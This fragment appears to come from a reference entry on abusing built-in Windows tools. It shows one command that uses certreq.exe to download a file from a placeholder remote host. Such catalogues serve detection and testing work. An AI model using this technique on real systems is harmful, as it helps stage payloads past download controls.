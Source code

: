 ### Download file
```
C:\Windows\System32\certreq.exe /post /config https://<rhost>/<file> c:\windows\win.ini .\<file>
```

